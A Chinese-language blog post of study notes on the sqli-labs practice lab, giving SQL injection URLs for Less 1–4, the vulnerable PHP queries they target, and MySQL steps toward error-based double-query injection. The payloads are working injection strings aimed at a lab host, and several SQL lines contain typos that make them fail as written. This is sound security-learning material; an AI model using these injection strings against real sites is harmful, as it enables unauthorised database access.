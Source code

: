 ```yaml
---
layout: post
title: "Sqli-labs 学习（长期更新）"
subtitle: "Sqli-labs 学习（长期更新）"
date:  2019-02-14
author: ppbibo
category: security
finished: true
---
```

[TOC]

## Less - 1 (GET字符型注入)

```
http://10.211.55.7/web/sqli-labs/Less-1/index.php?id=2' order by 3 -- s

http://10.211.55.7/web/sqli-labs/Less-1/index.php?id=-2' union select 1,2,database()-- s

# index.php 源代码
$sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1";
```

## Less - 2 (GET数字型注入)

```
http://10.211.55.7/web/sqli-labs/Less-2/index.php?id=2 order by 3 -- s

http://10.211.55.7/web/sqli-labs/Less-2/index.php?id=-2 union select 1,2,database()-- s

# index.php 源代码
$sql="SELECT * FROM users WHERE id=$id LIMIT 0,1";
```

## Less - 3 (单引号变形-字符型注入)

```
http://10.211.55.7/web/sqli-labs/Less-3/index.php?id=1%27) order by 3--%20s

http://10.211.55.7/web/sqli-labs/Less-3/index.php?id=-1%27) union select 1,2,database()-- s

# index.php 源代码
$sql="SELECT * FROM users WHERE id=('$id') LIMIT 0,1";
```

## Less - 4 (基于错误-双引号-字符型)

```
http://10.211.55.7/web/sqli-labs/Less-4/index.php?id=1") order by 3-- s

http://10.211.55.7/web/sqli-labs/Less-4/index.php?id=-1") union select 1,2,database()-- s

# inex.php 源代码
$id = '"'.$id.'"';
$sql="SELECT * FROM users WHERE id=(”$id“) LIMIT 0,1";
```

## Less - 6 (双注入-双引号-字符型)

SQL 基础

```
mysql>select count(*) from information_scheam.tables;

count()  // 返回行数
```

[![count](/static/img/count.png)](/static/img/count.png)

```
mysql>select rand();

rand() // 返回一个介于0和1之间的随机数
```

[![rand()](/static/img/rand.png)](/static/img/rand.png)

```
mysql>select table_name,table_schema from information_schema.tables group by table_schema;

group by // 按照规则对结果进行排序,我们看到输出结果以 table_schema 的首字符排序，输出每个数据库里的第一个表。
```

[![group_by](/static/img/group_by.png)](/static/img/group_by.png)

```
#  显示的是当前的数据库
mysql>select group_concat(0x3a,0x3a,(select database()),0x3a,0x3a)
```

[![group_concat](/static/img/group_concat.png)](/static/img/group_concat.png)

```
# 我们可以给 group_concat(0x3a,0x3a,(select database()),0x3a,0x3a) 取一个短一点的名字 
mysql>select group_concat(0x3a,0x3a,(select database()),0x3a,0x3a)name;
```

[![name](/static/img/name.png)](/static/img/name.png)

```
# 现在我们加入一些随机性，
mysql>select group_concat(0x3a,0x3a,(select database()),0x3a,floor(rand()))name;

rand()    // 获取随机数
floor()   // 取整
```

[![floor](/static/img/floor.png)](/static/img/floor.png)

```
# 这条语句可以看到当前数据库有多少字段数
mysql>select concat(0x3a,0x3a,(select database()),0x3a,0x3a,floor(rand()))name from information_schema.columns;
```

[![information_schema.columns](/static/img/information_schema.columns.png)](/static/img/information_schema.columns.png)

```
# 这条语句可以看到当前数据库存在的表数
mysql>select concat(0x3a,0x3a,(select database()),0x3a,0x3a,floor(rand()))name from informaiton_schema.tables;
```

[![information_schema.tables](/static/img/information_schema.tables.png)](/static/img/information_schema.tables.png)

```
# 接下来我们多加一个聚合函数 count()
mysql>select count(*),concat(0x3a,0x3a,(select database()),0x3a,0x3a,cloor(rand()*2))name from inforation_schema.tables group by name;
```